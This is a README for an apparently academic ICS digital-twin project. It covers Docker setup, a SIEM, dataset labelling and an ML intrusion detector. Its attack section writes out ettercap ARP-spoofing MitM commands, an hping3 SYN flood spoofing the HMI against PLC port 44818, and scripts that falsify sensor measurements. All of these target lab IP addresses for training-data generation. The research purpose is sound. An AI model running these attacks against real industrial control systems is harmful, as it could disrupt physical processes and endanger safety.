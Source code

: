 # DigitalTwin-SIEM-integration

**Installation**

Installation steps for the whole implementation with Docker Compose are as follows: 
(Please refer https://github.com/FrauThes/DigitalTwin-SIEM-integration/blob/master/README.md for the implementation without the IDS docker container)

1. After installing Docker Compose, clone the repository.
2. Add root user to the local access control list of xhost on "Docker host", not inside container.
    ```
    sudo xhost +si:localuser:root  
    ```
4. Run the init script:
    ```bash
    cd /deployments/docker && sudo sh init.sh
    ```
3. Enter the IP address or Hostname of the server when requested. For example:
    ```
    Enter the Hostname or IP Address where your elasticsearch will be deployed:10.0.2.15
    ```
    At this step, the script is trying to import the Dsiem dashboard to Kibana. This may take a few minutes. Until Kibana is up and running, error messages are shown. This is       normal. Example error message:
    ```
    curl: (22) The requested URL returned error: 503 Service Unavailable
    cannot connect to localhost:5601, will retry in 5 sec ..
    ```
5.  Once the project is ready, access kibana and IDS in browser.
    Kibana port 5601 , IDS (url comes on console) port 8888
    
The Project is up and running. If you want to start it a second time you simply have to navigate to deployments/docker and run `docker-compose up`.

**NOTE**: All the required packages, softwares and libraries are included with Docker. No need of installing these separately.

**Data collection**

Once the docker compose is up, 8 xterm consoles will pop up on the terminal (2 for s1, 2 for plc1, 1 for plc2, 1 for plc3, 1 for hmi and 1 for attacker node).
To trigger data collection, run the following command on hmi terminal
```
python trigger.py <x>
```
Here x corresponds to the minutes for which data (process measuremnets) needs to be collected. For examples, if data needs to be collected for 2 hours, enter x as 120.

The collected dataset is stored as 'data.csv' in logs folder.

Automated labelling of the generated dataset is done in two steps: 

1) Run label.py script to label dataset based on threshold conditions (For false data injection and DoS)
   ```
   python label.py
   ```
2) Run label1.py after step 1 by passing 3 arguments (start_time, end_time and attack type). Results are stored as 'labelled.csv' in the logs folder.
   ```
   python label1.py '2021-07-01 16:04:07.681880' '2021-07-01 16:05:11.900075' Calculated Measurement Modification 
   ```

**Executing attacks**

Note: Launch all attacks from attacker node terminal.

IP to nodes mapping: PLC1 <--> 10.0.0.1, PLC2 <--> 10.0.0.2, PLC3 <--> 10.0.0.3, HMI <--> 10.0.0.4, ATTACKER <--> 10.0.0.5

**Attack scenario 1** (Command injection): Run the following script to launch this attack for x minutes.

    python attack_fdi.py <x>

**Attack scenarios 2, 3, 4** (Network DoS: MitM): Run the following commands for attack scenarios 2, 3, 4, respectively.

    ettercap -T -i attacker-eth0 -M ARP /10.0.0.1// /10.0.0.2//
    ettercap -T -i attacker-eth0 -M ARP /10.0.0.1// /10.0.0.3//
    ettercap -T -i attacker-eth0 -M ARP /10.0.0.1// 

**Attack scenario 5** (Network DoS: TCP SYN flooding)

    hping3 -S -a 10.0.0.4 --flood -V -p 44818 10.0.0.1

**Note**: Attack scenarios 6 till 23 are done using MitM attacks. Attacker node is placed b/w two nodes and IP forwarding is enabled using the following commands.

    ettercap -T -i attacker-eth0 -M ARP /10.0.0.1// &
    echo 1 > /proc/sys/net/ipv4/ip_forward

**Attack scenarios 6,7,8** (Naive Measurement Modification): Run the following commands for attack scenarios 6, 7, 8, respectively. These attack scenarios modify the measurements to a constant value.

    python attack_sensor_constant.py PLC2
    python attack_sensor_constant.py PLC3
    python attack_sensor_constant.py BOTH


**Attack scenario 9,10,11 (Naive Measurement Modification): Run the following commands for attack scenarios 9, 10, 11, respectively. These attack scenarios modify the measurements to a random value within the predefined limits of the process measurements.

    python attack_sensor_random_withinlimits.py PLC2
    python attack_sensor_random_withinlimits.py PLC3
    python attack_sensor_random_withinlimits.py BOTH
    
**Attack scenarios 12,13,14 (Calculated Measurement Modification with +ve scaling) and Attack scenarios 15,16,17 (Calculated Measurement Modification with negative scaling). Here, the scaloing factor used is a uniform random value in the range (0,1].

    python attack_sensor_randomp.py PLC2
    python attack_sensor_randomp.py PLC3
    python attack_sensor_randomp.py BOTH
    python attack_sensor_randomn.py PLC2
    python attack_sensor_randomn.py PLC3
    python attack_sensor_randomn.py BOTH


**Attack scenarios 18,19,20 (Calculated Measurement Modification with positive scaling) and Attack scenarios 21,22,23 (Calculated Measurement Modification with negative scaling). Here, the scaling factor used is a fixed value.

    python attack_sensor_scaling.py PLC2 +
    python attack_sensor_scaling.py PLC3 +
    python attack_sensor_scaling.py BOTH +
    python attack_sensor_scaling.py PLC2 -
    python attack_sensor_scaling.py PLC3 -
    python attack_sensor_scaling.py BOTH -


**Running ML-based IDS**

Run ML_based IDS by running the Jupyter notebook ML_IDS.ipynb launched using IDS url. Results of IDS can be seen in 'IDS' dashboard in Kibana.

## Reference
[ARES'20](https://doi.org/10.1145/3407023.3407039)
